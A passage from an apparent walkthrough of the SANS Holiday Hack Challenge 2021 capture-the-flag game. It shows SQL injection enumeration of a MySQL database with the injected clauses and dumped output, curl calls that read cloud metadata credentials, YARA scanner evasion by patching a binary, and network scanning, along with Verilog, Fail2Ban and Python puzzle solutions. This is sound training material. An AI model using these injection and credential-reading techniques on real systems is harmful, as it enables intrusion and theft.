    row=$(echo $row + 1 | bc)
    echo ""
done
```

Let's enumerate the database using the MySQL information schema tables.

```bash
┌──(ben㉿42c96d2)-[~/Work]
└─$ ./frosttest.sh information_schema.schemata schema_name "%20" 0 10                130 ⨯
Analyzing table information_schema.schemata and column schema_name...
Row ID 0: information_schema.
Row ID 1: encontact.
Row ID 2: .
```

```bash
┌──(ben㉿42c96d2)-[~/Work]
└─$ ./frosttest.sh information_schema.tables table_name "%20where%20table_schema%3d%22encontact%22" 0 100
Analyzing table information_schema.tables and column table_name...
Row ID 0: users
Row ID 1: todo
Row ID 2: emails
Row ID 3: uniquecontact
Row ID 4: 
```

```bash
┌──(ben㉿42c96d2)-[~/Work]
└─$ ./frosttest.sh information_schema.columns column_name "%20where%20table_schema%3d%22encontact%22%20and%20table_name%3d%22todo%22" 0 100
Analyzing table information_schema.columns and column column_name...
Row ID 0: id
Row ID 1: note
Row ID 2: completed
Row ID 3: 
```

```bash
┌──(ben㉿42c96d2)-[~/Work]
└─$ ./frosttest.sh todo note "%20" 0 10                               130 ⨯
Analyzing table todo and column note...
Row ID 0: Buy up land all around Santa's Castle
Row ID 1: Build bigger and more majestic tower next to Santa's
Row ID 2: Erode Santa's influence at the North Pole via FrostFest, the greatest Con in history
Row ID 3: Dishearten Santa's elves and encourage defection to our cause
Row ID 4: Steal Santa's sleigh technology and build a competing and way better Frosty present delivery vehicle
Row ID 5: Undermine Santa's ability to deliver presents on 12/24 through elf staff shortages, technology glitches, and assorted mayhem
Row ID 6: Force Santa to cancel Christmas
Row ID 7: SAVE THE DAY by delivering Frosty presents using merch from the Frost Tower Gift Shop to children world-wide... so the whole world sees that Frost saved the Holiday Season!!!! Bwahahahahaha!
Row ID 8: With Santa defeated, offer the old man a job as a clerk in the Frost Tower Gift Shop so we can keep an eye on him
Row ID 9: 
Row ID 10:  
```

[Go back](#Objectives)

## Objective 13: FPGA Programming

[Go back](#Objectives)

**Overview**
Requested by Crunchy Squishter, found in FrostFest - Frost Tower Rooftop
<br>
Difficulty :christmas_tree: :christmas_tree: :christmas_tree: :christmas_tree: (4/5)
Task: Write your first FPGA program to make a doll sing. You might get some suggestions from Grody Goiterson, near Jack's elevator.


**Resources**
* [Hints from Grody Goiterson](#Hints-for-Objective-13:-FPGA-Programming), found in FrostFest - Frost Tower Lobby

**Solution**

Sometimes it's easier not to invent the wheel again and to use existing code.
See https://numato.com/kb/generating-square-wave-using-fpga/ as reference. I used this code and modified it to suit the required use case.

```verilog
// Note: For this lab, we will be working with QRP Corporation's CQC-11 FPGA.
// The CQC-11 operates with a 125MHz clock.
// Your design for a tone generator must support the following 
// inputs/outputs:
// (NOTE: DO NOT CHANGE THE NAMES. OUR AUTOMATED GRADING TOOL
// REQUIRES THE USE OF THESE NAMES!)
// input clk - this will be connected to the 125MHz system clock
// input rst - this will be connected to the system board's reset bus
// input freq - a 32 bit integer indicating the required frequency
//       (0 - 9999.99Hz) formatted as follows:
//       32'hf1206 or 32'd987654 = 9876.54Hz
// output wave_out - a square wave output of the desired frequency
// you can create whatever other variables you need, but remember
// to initialize them to something!

`timescale 1ns/1ns
module tone_generator (
  input clk, // 125MHz system clock
  input rst, // reset
  input [31:0] freq,
  output wave_out
);

  // ---- DO NOT CHANGE THE CODE ABOVE THIS LINE ---- 
  // ---- IT IS NECESSARY FOR AUTOMATED ANALYSIS ----
  // TODO: Add your code below. 
  // Remove the following line and add your own implementation. 
  // Note: It's silly, but it compiles...
  // assign wave_out = (clk | rst | (freq > 0));

  reg [31:0] one_second_counter;
  reg waver;
  assign wave_out = waver;
  localparam CLOCK_FREQUENCY = 125000000;

  always @(posedge clk or posedge rst)
  begin
    if(rst==1)
      begin
        one_second_counter <= 32'h00;
        waver <= 1'b0;
      end
    else
      begin
        if(one_second_counter == 32'h00)
          begin
            // one_second_counter <= 0;
            // waver <= waver ^1'b1;
            waver <= ~waver;
            one_second_counter <= CLOCK_FREQUENCY/(freq / 50)- 1; 
          end
        else
          one_second_counter <= one_second_counter - 1;
      end
  end
endmodule 
```

[Go back](#Objectives)

# Hints

[Go back](#Document-structure)

* Objective 1 **KringleCon Orientation** (doesn't have any hints)
* [Objective 2](#Hints-for-Objective-2:-Where-in-the-World-is-Caramel-Santaigo?) **Where in the World is Caramel Santiago?** hints from Piney Sappington found in KringleCon - Courtyard
* [Objective 3](#Hints-for-Objective-3:-Thaw-Frost-Tower's-Entrance) **Thaw Frost Tower's Entrance** hints from Greasy GopherGuts found in The North Pole - The North Pole
* [Objective 4](#Hints-for-Objective-4:-Slot-Machine-Investiation) **Slot Machine Investiation** hints from Noel Boetie found in The North Pole - The North Pole
* [Objective 5](#Hints-for-Objective-5:-Strange-USB-Device) **Strange USB Device** hints from Jewel Loggins found in KringleCon - Talks Lobby
* [Objective 6](#Hints-for-Objective-6:-Shellcode-Primer) **Shellcode Primer** hints from Chimney Scissorsticks found KringleCon - NetWars
* [Objective 7](#Hints-for-Objective-7:-Printer-Exploitation) **Printer Exploitation** hints from Ruby Oyster found in FrostFest - Jack’s Office
* [Objective 8](#Hints-for-Objective-8:-Kerberoasting-on-an-Open-Fire) **Kerberoasting on an Open Fire** hints from Eve Snowshoes found in KringleCon - Santa’s Office
* [Objective 9](#Hints-for-Objective-9:-Splunk!) **Splunk!** hints from Fitzy Shortstack found in KringleCon - Entry
* [Objective 10](#Hints-for-Objective-10:-Now-Hiring!) **Now Hiring!** hints from Noxious O D'or found in FrostFest - Jack’s Restroom
* [Objective 11](#Hints-for-Objective-11:-Customer-Complaint-Analysis) **Customer Complaint Analysis** hints from Tinsel Upatree found in KringleCon - Kitchen
* [Objective 12](#Hints-for-Objective-12:-Frost-Tower-Website-Checkup) **Frost Tower Website Checkup** hints from Ribb Bonbowford found in KringleCon - Dining Room
* [Objective 13](#Hints-for-Objective-13:-FPGA-Programming) **FPGA Programming** hints from Grody Goiterson found in FrostFest - Frost Tower Lobby

[Go back](#Document-structure)

## Hints for Objective 2: Where in the World is Caramel Santaigo?

[Go back](#Hints)

**Overview**
Requested by Piney Sappington, found in KringleCon - Courtyard
<br>
Task: Exifdate
Description: 

```
HELP! That wily Jack Frost modified one of our naughty/nice records, and right 
before Christmas! Can you help us figure out which one? We've installed exiftool
for your convenience!

Filename (including .docx extension) > 
```


**Resources**
* Exiftool man page: http://manpages.org/exiftool

**Solution**
One of the files seem to contain altered metadata. So let's loop over all files and compare the output of the exiftool helper:

``` bash
elf@e2533911c94b:~$ for i in *; do echo $i; exiftool $i | wc; done
..
2021-12-20.docx
     44     186    1928
2021-12-21.docx
     44     186    1927
2021-12-22.docx
     44     186    1928
..
```

So the 21-file seems to be the target:

``` bash
elf@e2533911c94b:~$ exiftool 2021-12-21.docx
..
Last Modified By       : Jack Frost
..
```

**Hints given**
* **Coordinate Systems:** Don't forget coordinate systems other than lat/long like [MGRS](https://en.wikipedia.org/wiki/Military_Grid_Reference_System) and [what3words](https://what3words.com/).
* **Flask Cookies:** While Flask cookies can't generally be forged without the secret, they can often be [decoded and read](https://gist.github.com/chriselgee/b9f1861dd9b99a8c1ed30066b25ff80b).
* **OSINT Talk:** Clay Moody is giving [a talk](https://www.youtube.com/watch?v=tAot_mcBT9c) about OSINT techniques right now!

[Go back](#Hints)

## Hints for Objective 3: Thaw Frost Tower's Entrance

[Go back](#Hints)

**Overview**
Requested by Greasy GopherGuts, found in The North Pole - The North Pole
<br>
Task: Grepping for Gold
Description: 

```
Howdy howdy!  Mind helping me with this homew- er, challenge?
Someone ran nmap -oG on a big network and produced this bigscan.gnmap file.
The quizme program has the questions and hints and, incidentally,
has NOTHING to do with an Elf University assignment. Thanks!

Answer all the questions in the quizme executable:
- What port does 34.76.1.22 have open?
- What port does 34.77.207.226 have open?
- How many hosts appear "Up" in the scan?
- How many hosts have a web port open?  (Let's just use TCP ports 80, 443, and 8080)
- How many hosts with status Up have no (detected) open TCP ports?
- What's the greatest number of TCP ports any one host has open?

Check out bigscan.gnmap and type quizme to answer each question.
```



**Resources**
* grep man page: https://man7.org/linux/man-pages/man1/grep.1p.html
* Regular Expressions tutorial: https://regexland.com/regex-tutorial/

**Solution**
Grep can be used to look for certain keywords/lines inside a file. The man page shows which parameters are available. The later steps are easier to solve if you're using regular expressions and/or piping a command output to another command.   
The quizme binary offers some help to get the proper grep statements:

``` bash
# What port does 34.76.1.22 have open?
elf@372b805671ad:~$ grep 34.76.1.22 bigscan.gnmap 
Host: 34.76.1.22 ()     Status: Up
Host: 34.76.1.22 ()     Ports: 62078/open/tcp//iphone-sync///      Ignored State: closed (999)

# What port does 34.77.207.226 have open?
elf@372b805671ad:~$ grep 34.77.207.226 bigscan.gnmap 
Host: 34.77.207.226 ()     Status: Up
Host: 34.77.207.226 ()     Ports: 8080/open/tcp//http-proxy///      Ignored State: filtered (999)

# How many hosts appear "Up" in the scan?
elf@372b805671ad:~$ grep "Status: Up" bigscan.gnmap | wc
  26054  130270  967583

# How many hosts have a web port open?  (Let's just use TCP ports 80, 443, and 8080)
elf@b603d20214a1:~$ grep -E "(80/open)|(443/open)|(8080/open)" bigscan.gnmap | wc
  14372  180190 2539348

# How many hosts with status Up have no (detected) open TCP ports?
elf@b603d20214a1:~$ grep "Status: Up" bigscan.gnmap | wc ; grep "/open" bigscan.gnmap | wc
  26054  130270  967583
  25652  321396 4731570
# 26054 - 25652 = 402

# What's the greatest number of TCP ports any one host has open?
elf@9bb355913c98:~$ cat bigscan.gnmap | grep "/open" | awk -F',' '{print NF-1}' | sort | uniq
0
1
10
11
2
..
9
# Max is 11(+1) = 12
```

**Hints given**

* **Adding Data to cURL requests:** When sending a [POST request with data](https://www.educative.io/edpresso/how-to-perform-a-post-request-using-curl), add --data-binary to your curl command followed by the data you want to send.
* **Linux Wi-Fi Commands:** The [iwlist](https://linux.die.net/man/8/iwlist) and [iwconfig](https://linux.die.net/man/8/iwconfig) utilities are key for managing Wi-Fi from the Linux command line.
* **Web Browsing with cURL:** [cURL](https://linux.die.net/man/1/curl) makes HTTP requests from a terminal - in Mac, Linux, and modern Windows!

[Go back](#Hints)

## Hints for Objective 4: Slot Machine Investiation

[Go back](#Hints)

**Overview**
Requested by Noel Boetie, found in The North Pole - The North Pole
<br>
Task Logic Munchers
Description 

```
Logic Chompers! Complete a stage in Potpourri at Intermediate or higher to get a special achievement!

Controls:
Arrow keys or WASD: Move Chompy
Enter or Space: Chomp the current expression
Click: Navigate to adjacent squares and chomp the square Chompy's in
Esc: Pause the game
i: Toggle text and iconography
```


**Resources**
* Boolean logic: https://eng.libretexts.org/Bookshelves/Computer_Science/Programming_Languages/Introduction_To_MIPS_Assembly_Language_Programming_(Kann)/01%3A_Introduction/1.07%3A_Boolean_Logical_and_Bitwise_Operators

**Solution**
Well, there is no real hint here than just to follow the rules, solve the equations and watch for the trolls ;)  
Stay away from the edges as well as the trolls are coming from there ;)

**Hints given**

* **Parameter Tampering:** It seems they're susceptible to [parameter tampering](https://owasp.org/www-community/attacks/Web_Parameter_Tampering).
* **Intercepting Proxies:** Web application testers can use tools like [Burp Suite](https://portswigger.net/burp/communitydownload) or even right in the browser with Firefox's [Edit and Resend](https://itectec.com/superuser/how-to-edit-parameters-sent-through-a-form-on-the-firebug-console/) feature.

[Go back](#Hints)

## Hints for Objective 5: Strange USB Device

[Go back](#Hints)

**Overview**
Requested by Jewel Loggins, found in KringleCon - Talks Lobby
<br>
Task IPv6 Sandbox.
Description 

```
Tools:
* netcat
* nmap
* ping / ping6
* curl

Welcome, Kringlecon attendee! The candy striper is running as a service on                   
this terminal, but I can't remember the password. Like a sticky note under the               
keyboard, I put the password on another machine in this network. Problem is: I               
don't have the IP address of that other host.
Please do what you can to help me out. Find the other machine, retrieve the                
password, and enter it into the Candy Striper in the pane above. I know you                
can get it running again!
```


**Resources**
* Nmap IPv6 usage: https://nmap.org/book/port-scanning-ipv6.html
* Curl man page: https://curl.se/docs/manpage.html
* How to ping a subnet in IPv6: https://superuser.com/questions/495026/ipv6-find-all-hosts-in-a-prefix

**Solution**
Let’s ping for further IPv6 hosts

``` bash
ping6 -I 2604:6000:1528:cd:d55a:f8a7:d30a:3 ff02::1%eth0
```

We have a few candidates

``` 
2604:6000:1528:cd:d55a:f8a7:d30a:1
2604:6000:1528:cd:d55a:f8a7:d30a:2
2604:6000:1528:cd:d55a:f8a7:d30a:3
2604:6000:1528:cd:d55a:f8a7:d30a:e405
```

Let’s see what’s running on that last machine

``` bash
nmap -6 2604:6000:1528:cd:d55a:f8a7:d30a:e405
```

Port 80 and 9000 open so we use curl and Netcat to inspect them

``` bash
curl -6 -g 'http://[2604:6000:1528:cd:d55a:f8a7:d30a:e405]:80/'
netcat -6 '2604:6000:1528:cd:d55a:f8a7:d30a:e405' 9000
```

The second port gives us the passphrase

*PieceOnEarth*

**Hints given**

* **Ducky Script:** [Ducky Script](https://docs.hak5.org/hc/en-us/articles/360010555153-Ducky-Script-the-USB-Rubber-Ducky-language) is the language for the USB Rubber Ducky
* **Duck Encoder:** Attackers can encode Ducky Script using a [duck encoder](https://docs.hak5.org/hc/en-us/articles/360010471234-Writing-your-first-USB-Rubber-Ducky-Payload) for delivery as inject.bin.
* **Mitre ATT&CK™ and Ducky:** The [MITRE ATT&CK™ tactic T1098.004](https://attack.mitre.org/techniques/T1098/004/) describes SSH persistence techniques through authorized keys files.
* **Ducky RE with Mallard:** It's also possible the reverse engineer encoded Ducky Script using [Mallard](https://github.com/dagonis/Mallard).

[Go back](#Hints)

## Hints for Objective 6: Shellcode Primer

[Go back](#Hints)

**Overview**
Requested by Chimney Scissorsticks, found in KringleCon - NetWars
<br>
Task Holiday Hero.
Description 

```
Santa's HOLIDAY HERO

1. RANDOM MATCH MAKING
2. CREATE ROOM
3. JOIN ROOM
```

In this browser based game you have to collect fuel and reach a certain percentage so Santa's sleigh can depart. It was made for two player where one player creates a room and a second player can join that room by using the same room ID.
Each player needs to press one of two keys at the correct time so the fuel gets collected.



**Resources**
*None*

**Solution**

While this game could be modified (by tweaking cookies) to support a single player mode I have chosen the "think-outside-the-box" strategy: Put two laptops next to each other, created a room and the invitation at the same time and played the game having one hand on each laptop's keyboard. :smile:

**Hints given**

* **Debugging Shellcode:** Also, troubleshooting shellcode can be difficult. Use the debugger step-by-step feature to watch values.
* **Register Stomping:** Lastly, be careful not to overwrite any register values you need to reference later on in your shellcode.
* **Shellcode Primer Primer:** If you run into any shellcode primers at the North Pole, be sure to read the directions and the comments in the shellcode source! 

[Go back](#Hints)

## Hints for Objective 7: Printer Exploitation

[Go back](#Hints)

**Overview**
Requested by Ruby Oyster, found in FrostFest - Jack’s Office
<br>
Task Objective 6: Shellcode Primer 
Description 

See [Objective 6: Shellcode Primer](#Objective 6: Shellcode Primer)


**Hints given**

* **Hash Extension Attacks:** [Hash Extension Attacks](https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks) can be super handy when there's some type of validation to be circumvented.
* **Printer Firmware:** When analyzing a device, it's always a good idea to pick apart the firmware. Sometimes these things come down Base64-encoded.
* **Dropping Files:** Files placed in /app/lib/public/incoming will be accessible under https://printer.kringlecastle.com/incoming/.

[Go back](#Hints)

## Hints for Objective 8: Kerberoasting on an Open Fire

[Go back](#Hints)

**Overview**
Requested by Eve Snowshoes, found in KringleCon - Santa’s Office
<br>
Task HoHo ... No
Description 

```
Jack is trying to break into Santa's workshop!

Santa's elves are working 24/7 to manually look through logs, identify the
malicious IP addresses, and block them. We need your help to automate this so
the elves can get back to making presents!

Can you configure Fail2Ban to detect and block the bad IPs?
 * You must monitor for new log entries in /var/log/hohono.log
 * If an IP generates 10 or more failure messages within an hour then it must
   be added to the naughty list by running naughtylist add <ip>
        /root/naughtylist add 12.34.56.78
 * You can also remove an IP with naughtylist del <ip>
        /root/naughtylist del 12.34.56.78
 * You can check which IPs are currently on the naughty list by running
        /root/naughtylist list

You'll be rewarded if you correctly identify all the malicious IPs with a
Fail2Ban filter in /etc/fail2ban/filter.d, an action to ban and unban in
/etc/fail2ban/action.d, and a custom jail in /etc/fail2ban/jail.d. Don't
add any nice IPs to the naughty list!

*** IMPORTANT NOTE! ***
Fail2Ban won't rescan any logs it has already seen. That means it won't
automatically process the log file each time you make changes to the Fail2Ban
config. When needed, run /root/naughtylist refresh to re-sample the log file
and tell Fail2Ban to reprocess it.
```



**Resources**
* Using fail2ban To Secure Your Own Server: https://www.linode.com/docs/guides/using-fail2ban-to-secure-your-server-a-tutorial/
* Regular Expressions tutorial: https://regexland.com/regex-tutorial/

**Solution**

The fail2ban filter can be implemented like this (there are 4 types of error messages which can occur in the log file):

``` bash
root@01550c223905:/etc/fail2ban# cat filter.d/naughtylist.conf 
[Definition]
failregex = ^.* Failed login from <HOST> for .*$
            ^.* Invalid heartbeat .* from <HOST>.*$
            ^.* Login from <HOST> rejected due to unknown user name.*$
            ^.* <HOST> sent a malformed request.*$
```

Let’s test if these are matching:

``` bash
root@01550c223905:/etc/fail2ban# fail2ban-regex /var/log/hohono.log /etc/fail2ban/filter.d/naughtylist.conf 

Running tests
=============
Use   failregex filter file : naughtylist, basedir: /etc/fail2ban
Use         log file : /var/log/hohono.log
Use         encoding : UTF-8


Results
=======
Failregex: 3711 total
|-  #) [# of hits] regular expression
|   1) [969] ^.* Failed login from <HOST> for .*$
|   2) [856] ^.* Invalid heartbeat .* from <HOST>.*$
|   3) [928] ^.* Login from <HOST> rejected due to unknown user name.*$
|   4) [958] ^.* <HOST> sent a malformed request.*$
`-
```

We also need some actions to ban/unban IPs:

``` bash
root@6f94ebf60fe4:/etc/fail2ban# cat action.d/naughtylist.conf 
[Definition]
actionban = /root/naughtylist add <ip>
actionunban = /root/naughtylist del <ip>
```

And of course a proper jail:

``` bash
root@6f94ebf60fe4:/etc/fail2ban# cat jail.d/naughtylist.conf 
[naughtylist]
enabled  = true
filter = naughtylist
logpath = /var/log/hohono.log

banaction = naughtylist

maxretry = 10
findtime = 3600
bantime = -1
```

Let’s refresh the config and reload the entries to see if they are triggering fail2ban:

``` bash
root@618198b70f67:/etc/fail2ban/jail.d# Log file refreshed! It may take fail2ban a few moments to re-process.
192.149.76.183 has been added to the naughty list!
..
201.10.224.72 has been added to the naughty list!
You correctly identifed 19 IPs out of 19 bad IPs
You incorrectly added 0 benign IPs to the naughty list

*******************************************************************
* You stopped the attacking systems! You saved our systems!
*
* Thank you for all of your help. You are a talented defender!
*******************************************************************
```

**Hints given**

* **Active Directory Interrogation:** Investigating Active Directory errors is harder without [Bloodhound](https://github.com/BloodHoundAD/BloodHound), but there are [native](https://social.technet.microsoft.com/Forums/en-US/df3bfd33-c070-4a9c-be98-c4da6e591a0a/forum-faq-using-powershell-to-assign-permissions-on-active-directory-objects?forum=winserverpowershell) [methods](https://www.specterops.io/assets/resources/an_ace_up_the_sleeve.pdf).
* **Kerberoasting and Hashcat Syntax:** Learn about [Kerberoasting](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a) to leverage domain credentials to get usernames and crackable hashes for service accounts.
* **Stored Credentials:** Administrators often store credentials in scripts. These can be coopted by an attacker for other purposes!
* **Kerberoast and AD Abuse Talk:** Check out [Chris Davis' talk](https://www.youtube.com/watch?v=iMh8FTzepU4) and [scripts](https://github.com/chrisjd20/hhc21_powershell_snippets) on Kerberoasting and Active Directory permissions abuse.
* **Finding Domain Controllers:** There will be some 10.X.X.X networks in your routing tables that may be interesting. Also, consider adding -PS22,445 to your nmap scans to "fix" default probing for unprivileged scans.
* **Hashcat Mangling Rules:** [OneRuleToRuleThemAll.rule](https://github.com/NotSoSecure/password_cracking_rules) is great for mangling when a password dictionary isn't enough.
* **CeWL for Wordlist Creation:** [CeWL](https://github.com/digininja/CeWL) can generate some great wordlists from website, but it will ignore digits in terms by default.

[Go back](#Hints)

## Hints for Objective 9: Splunk!

[Go back](#Hints)

**Overview**
Requested by Fitzy Shortstack, found in KringleCon - Entry
<br>
Task Yara Analysis
Description 

```
HELP!!!

This critical application is supposed to tell us the sweetness levels of our candy
manufacturing output (among other important things), but I can't get it to run.

It keeps saying something something yara. Can you take a look and see if you
can help get this application to bypass Sparkle Redberry's Yara scanner?

If we can identify the rule that is triggering, we might be able change the program
to bypass the scanner.

We have some tools on the system that might help us get this application going:
vim, emacs, nano, yara, and xxd

The children will be very disappointed if their candy won't even cause a single cavity.

snowball2@e3932e4afe25:~$ 
```


**Resources**
* Writing YARA rules: https://yara.readthedocs.io/en/stable/writingrules.html
* CyberChef: https://gchq.github.io/CyberChef/

**Solution**

First run of the blocked binary:

``` bash
snowball2@312ab12cd1a9:~$ ./the_critical_elf_app 
yara_rule_135 ./the_critical_elf_app
```

That yara rule says

```
 strings:
      $s = "candycane"
```

So just open the binary (a simple editor like vi is sufficient), look for that string and replace the lower case c with a capital C
<br>
Second run:

``` bash
snowball2@45408967b971:~$ ./the_critical_elf_app 
yara_rule_1056 ./the_critical_elf_app 
```

That yara rule says

```
    strings:
        $s1 = {6c 6962 632e 736f 2e36}
        $hs2 = {726f 6772 616d 2121}
```

Just feed that numbers into CyberChef and apply the magic recipe:

```
From_Hexdump()
c.so.6gram!!	Valid UTF8
Entropy: 3.25
```

So just open the binary again, look for the second string and replace the ! With another character like -
<br>
Third run:

``` bash
snowball2@45408967b971:~$ ./the_critical_elf_app 
yara_rule_1732 ./the_critical_elf_app
```

That yara rule looks for a lot of string but we can take the easy route looking at the conditions:

```
   condition:
      uint32(1) == 0x02464c45 and filesize < 50KB and
      10 of them
```

Let’s append some null bytes at the end of the file:

``` bash
snowball2@45408967b971:~$ dd if=/dev/zero count=100 >> the_critical_elf_app 
100+0 records in
100+0 records out
51200 bytes (51 kB, 50 KiB) copied, 0.000323874 s, 158 MB/s
snowball2@45408967b971:~$ ls -l the_critical_elf_app 
-rwxr-xr-x 1 snowball2 snowball2 67889 Dec 13 21:34 the_critical_elf_app
```

The binary will be able to bypass the yara checks now:

``` bash
snowball2@45408967b971:~$ ./the_critical_elf_app 
Machine Running.. 
Toy Levels: Very Merry, Terry
Naughty/Nice Blockchain Assessment: Untampered
Candy Sweetness Gauge: Exceedingly Sugarlicious
Elf Jolliness Quotient: 4a6f6c6c7920456e6f7567682c204f76657274696d6520417070726f766564
```

**Hints given**

* **Sysmon Monitoring in Splunk:** Sysmon network events don't reveal the process parent ID for example. Fortunately, we can pivot with a query to investigate process creation events once you get a process ID.
* **Malicious NetCat??:** Did you know there are multiple versions of the Netcat command that can be used maliciously? nc.openbsd, for example.
* **GitHub Monitoring in Splunk:** Between GitHub audit log and webhook event recording, you can monitor all activity in a repository, including common git commands such as git add, git status, and git commit.

[Go back](#Hints)

## Hints for Objective 10: Now Hiring!

[Go back](#Hints)

**Overview**
Requested by Noxious O D'or, found in FrostFest - Jack’s Restroom
<br>
Task IMDS Exploration
Description 

```
🎄🎄🎄 Prof. Petabyte here. In this lesson you'll continue to build your cloud asset skills,
🎄🎄🎄 interacting with the Instance Metadata Service (IMDS) using curl.
🎄🎄🎄
🎄🎄🎄 If you get stuck, run 'hint' for assitance.
🎄🎄🎄

The Instance Metadata Service (IMDS) is a virtual server for cloud assets at the IP address
169.254.169.254. Send a couple ping packets to the server.
```


**Resources**
*None*

**Solution**

First we ping the IMDS

``` bash
ping 169.254.169.254
```

And we follow the hint system (The commands you'll need to enter are shown by the hint system)

``` bash
curl http://169.254.169.254
curl http://169.254.169.254/latest
curl http://169.254.169.254/latest/dynamic
curl http://169.254.169.254/latest/dynamic/instance-identity/document
curl http://169.254.169.254/latest/dynamic/instance-identity/document | jq
curl http://169.254.169.254/latest/meta-data
curl http://169.254.169.254/latest/meta-data/hostname
curl http://169.254.169.254/latest/meta-data/hostname ; echo
curl http://169.254.169.254/latest/meta-data/iam/security-credentials
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/elfu-deploy-role
```

Let’s switch over to IMDSv2 which uses token for authentication

``` bash
elfu@0c4829dafe5e:~$ cat gettoken.sh 
TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"`
source gettoken.sh
echo $TOKEN
curl -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/placement/region
```

**Hints given**

* **AWS IMDS Documentation:** The [AWS documentation for IMDS](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html) is interesting reading.

[Go back](#Hints)

## Hints for Objective 11: Customer Complaint Analysis

[Go back](#Hints)

**Overview**
Requested by Tinsel Upatree, found in KringleCon - Kitchen
<br>
Task Strace Ltrace Retrace
Description 

```
================================================================================
Please, we need your help! The cotton candy machine is broken!

We replaced the SD card in the Cranberry Pi that controls it and reinstalled the
software. Now it's complaining that it can't find a registration file!

Perhaps you could figure out what the cotton candy software is looking for...
================================================================================
```



**Resources**
* ltrace man page: https://man7.org/linux/man-pages/man1/ltrace.1.html
* strace man page: https://man7.org/linux/man-pages/man1/strace.1.html

**Solution**

The binary is missing some configuration file:

``` bash
kotton_kandy_co@d1c631b1cf57:~$ ./make_the_candy 
Unable to open configuration file.
```

Let’s strace that file to see if we can find some missing dependency:

``` bash
kotton_kandy_co@d1c631b1cf57:~$ strace ./make_the_candy
..
openat(AT_FDCWD, "registration.json", O_RDONLY) = -1 ENOENT (No such file or directory)
..
```

Let's create that file with some dummy content and run the binary again:

``` bash
kotton_kandy_co@d1c631b1cf57:~$ touch registration.json
ton_kandy_co@d1c631b1cf57:~$ echo something >> registration.jso
kotton_kandy_co@d1c631b1cf57:~$ ./make_the_candy 
Unregistered - Exiting.
```

Seems the binary expects that file to contain certain information, let’s ltrace that file (maybe we can found some function calls regarding the content):

``` bash
kotton_kandy_co@d1c631b1cf57:~$ ltrace -S -f ./make_the_candy
..
[pid 26] strstr("something\n", "Registration")            = nil
..
```

This way we can see the strings that are expected and we can rebuild the full configuration file:

``` bash
kotton_kandy_co@d1c631b1cf57:~$ vim registration.json 
kotton_kandy_co@d1c631b1cf57:~$ cat registration.json 
Registration: True
kotton_kandy_co@d1c631b1cf57:~$ ./make_the_candy 

Launching...
```

**Hints given**

* **Wireshark Display Filters:** Different from BPF capture filters, Wireshark's [display filters](https://wiki.wireshark.org/DisplayFilters) can find text with the contains keyword - and evil bits with ip.flags.rb.
* **Evil Bit RFC:** [RFC3514](https://datatracker.ietf.org/doc/html/rfc3514) defines the usage of the "Evil Bit" in IPv4 headers.

[Go back](#Hints)

## Hints for Objective 12: Frost Tower Website Checkup

[Go back](#Hints)

**Overview**
Requested by Ribb Bonbowford, found in KringleCon - Dining Room
<br>
Task The Elf Code
Description 

```
Welcome to

Python Edition!
Mischevious munchkins have nabbed all the North Pole's lollipops intended for good children all over the world.

Use your Python skills to retrieve the nabbed lollipops from at least eight entrances to KringleCon.

Click to begin or continue at your current task.

Inspired by SANS SEC573 pyWars.

Not Familiar with Python?
Take a look at The Ultimate Python Beginner's Handbook or the CodeAcademy interactive Python tutorial.
```


**Resources**
* The Ultimate Python Beginner's Handbook: https://www.freecodecamp.org/news/the-python-guide-for-beginners/
* CodeAcademy interactive Python tutorial: https://www.codecademy.com/courses/learn-python-3/lessons/python-hello-world/exercises/welcome

**Solution**
In this simulator you need to write Python code which interacts with the objects. You also need to fulfill certain requirements to finish a level successfully.  
Each level can have different solutions, but each level has a very good description and hints so you can always start with a template and finish the missing parts.  
<br>
The programs are:

``` python
# First level
lollipop = lollipops.get(0)
elf.moveTo(lollipop.position)
elf.moveTo({"x":2,"y":2})
```

``` python
# Second level
lollipop1 = lollipops.get(1)
elf.moveTo(lollipop1.position)
lollipop0 = lollipops.get(0)
elf.moveTo(lollipop0.position)
elf.moveTo({"x":2,"y":2})
```

``` python
# Third level
lever0 = levers.get(0)
lollipop0 = lollipops.get(0)
elf.moveTo({"x":6,"y":12})
sum = lever0.data() + 2
lever0.pull(sum)
elf.moveTo(lollipop0.position)
elf.moveTo({"x":2,"y":2})
```

``` python
# Fourth level
lever0, lever1, lever2, lever3, lever4 = levers.get()
elf.moveLeft(2)
lever4.pull("A String")
elf.moveUp(2)
lever3.pull(1==1)
elf.moveUp(2)
lever2.pull(1)
elf.moveUp(2)
lever1.pull([1,2,3])
elf.moveUp(2)
lever0.pull({1:1,2:2})
elf.moveUp(2)
```

``` python
# Fifth level
lever0, lever1, lever2, lever3, lever4 = levers.get()
elf.moveLeft(2)
lever4.pull(lever4.data() + " concatenate")
elf.moveUp(2)
lever3.pull(not(lever3.data()))
elf.moveUp(2)
lever2.pull(1 + lever2.data())
elf.moveUp(2)
newlist=lever1.data()
newlist.append(1)
lever1.pull(newlist)
elf.moveUp(2)
newdict=lever0.data()
newdict["strkey"] = "strvalue"
lever0.pull(newdict)
elf.moveUp(2)
```

``` python
# Sixth level
lever = levers.get(0)
data = lever.data()
elf.moveTo(lever.position)
if type(data) == bool:
    data = not data
elif type(data) == int:
    data = data * 2 
elif type(data) == str:
    data = data + data
elif type(data) == list:
    data = [x+1 for x in data]
lever.pull(data)
elf.moveUp(2)
```

```python
# Seventh level
for num in range(2): 
    elf.moveLeft(3)
    elf.moveUp(15)
    elf.moveLeft(3)
    elf.moveDown(15)
elf.moveLeft(3)
elf.moveTo({"x":2,"y":2})
```

``` python
# Eighth level
all_lollipops = lollipops.get()
lever = levers.get(0)
for lollipop in all_lollipops:
    elf.moveTo(lollipop.position)
elf.moveTo(lever.position)
myarray = lever.data()
myarray.insert(0, "munchkins rule")
lever.pull(myarray)
elf.moveTo({"x":2,"y":6})
elf.moveTo({"x":2,"y":2})
```

**Hints given**

* **SQL Injection with Source:** When you have the source code, API documentation becomes [tremendously](https://www.npmjs.com/package/express-session) [valuable](https://github.com/mysqljs/mysql).

[Go back](#Hints)

## Hints for Objective 13: FPGA Programming

